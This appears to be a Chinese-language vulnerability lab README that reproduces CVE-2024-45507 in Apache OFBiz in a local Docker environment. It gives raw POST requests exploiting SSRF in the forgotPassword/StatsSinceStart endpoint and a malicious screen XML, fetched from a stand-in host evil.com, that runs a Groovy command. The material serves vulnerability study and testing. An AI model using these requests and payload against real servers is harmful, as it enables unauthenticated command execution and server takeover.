


# Apache OFBiz SSRF 和远程代码执行漏洞（CVE-2024-45507）

Apache OFBiz是一个开源企业资源规划（ERP）系统。它提供了一套企业应用程序，集成并自动化企业的许多业务流程。

Apache OFBiz 18.12.16之前的版本存在一处SSRF与远程命令执行漏洞，未经身份验证的攻击者可以利用该漏洞执行任意命令并控制服务器。

参考链接：

- <https://github.com/apache/ofbiz-framework/commit/ffb1bc4879>
- <https://xz.aliyun.com/t/15569>
- <https://paper.seebug.org/3228/>

## 漏洞环境

执行以下命令启动一个Apache OFBiz 18.12.15服务器：

```
docker compose up -d
```

等待片刻后，您可以在`https://localhost:8443/accounting`看到登录页面。

## 漏洞复现

### SSRF漏洞

向`/webtools/control/forgotPassword/StatsSinceStart`发送以下POST请求即可：

```
POST /webtools/control/forgotPassword/StatsSinceStart HTTP/1.1
Host: your-ip:8443
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 64

statsDecoratorLocation=http://10.10.10.10/path/to/api
```

## 远程代码执行漏洞

在公共服务器上创建一个恶意的XML文件（payload.xml），例如`http://evil.com/ofbiz/payload.xml`：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<screens xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns="http://ofbiz.apache.org/Widget-Screen" xsi:schemaLocation="http://ofbiz.apache.org/Widget-Screen http://ofbiz.apache.org/dtds/widget-screen.xsd">

    <screen name="StatsDecorator">
        <section>
            <actions>
                <set value="${groovy:'touch /tmp/success'.execute();}"/>
            </actions>
        </section>
    </screen>
</screens>
```

然后将恶意XML的URL替换进请求中发送：

```
POST /webtools/control/forgotPassword/StatsSinceStart HTTP/1.1
Host: your-ip:8443
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 64

statsDecoratorLocation=http://evil.com/ofbiz/payload.xml
```



进入容器中，可见命令`touch /tmp/success`已经被成功执行：


